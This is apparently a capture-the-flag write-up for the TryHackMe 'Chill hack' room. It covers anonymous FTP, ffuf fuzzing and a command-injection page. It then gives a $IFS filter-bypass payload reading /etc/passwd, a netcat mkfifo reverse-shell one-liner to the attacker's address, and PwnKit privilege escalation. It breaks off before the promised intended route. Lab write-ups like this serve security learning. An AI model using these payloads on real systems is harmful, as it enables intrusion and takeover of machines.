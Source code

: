 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/929f86ba-91f5-4278-b53b-555b5afa2985)### Chill hack
### Difficulty = easy
### Os = linux
### [LINK](https://tryhackme.com/room/chillhack)

Hi guys ,
<br> let's root another fun box today.
<br> let's get started.

<h2>Nmap scan</h2>

![nmap](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a3a34c1a-56e5-4c8b-b7ac-b05149c8fa2b)

As you can see we have 3 open ports which port 21(FTP) Allows anonymous login.
<br> so let's enumerate the port further by connecting to the ftp server using "anonymous" as username and hitting enter to get logged in. Then download the file on the server to your local machine

![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49303fe2-cdba-459b-b3d2-4a7476fb7ecc)
<br> so, let's check the content of the downloaded file

![note](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e36502ad-edc5-4183-9125-e2347c83f7ee)

the file contains hint to the box.

<br> let's proceed further by fuzzing for directories using ffuf
~~~
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.120/FUZZ
~~~

![fuzz](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6bce9a6-9f52-4e85-975a-9f959b1a6b73)

got the directory */secret*
<br> visiting the directory we can tell that the box is about command injection

![http_command_inj_page](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6568236-8929-4d80-ae25-fff0fd4ab7ec)
<br> so, you can confirm it by executing the **id** command

proceeding further we noticed that our commands ain't working due to some kinda filters
 
 ![filter](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01e4e271-345e-4135-b128-838ec0d753d5)

i found out that spaces get filtered and thereby triggering the alert.

<br> so, let's bypass the filter using the "internal field separator" $IFS
```
cat$IFS/etc/passwd should work
```

![filer_bypass](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8ab2e700-3c52-440b-9e9a-aa732477c14c)

dope! it has been bypassed. which means we have to replace the spaces with $IFS 

<br> let's pop our sweet reverse shell by starting netcat listener and executing this commands.
```
rm$IFS/tmp/f;mkfifo$IFS/tmp/f;cat$IFS/tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f
```
![rev-shell](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/760a62df-4925-44ae-b577-07654cb8fa56)

<br> cool we have a shell xD
<br> so, stabilize the shell.

<h2>Privilege escalation</h2>
Enumeration shows that the machine is vulnerable to pwnkit
using
```uname -a```
to confirm
so, let's move the  pwnkit exploit to the box  and run to gain root ![link](https://github.com/ly4k/PwnKit)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c570d7a-70dd-4fba-893b-2b5e6ecc9b9e)
we able to cat the user and root flag

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/527f7f6d-a1fe-4aa2-95e5-c4ef69df87d0)

that's the unintended way to gain root




so let's go the intended way:

bankai senbonzakura kagyeoshi lol :)






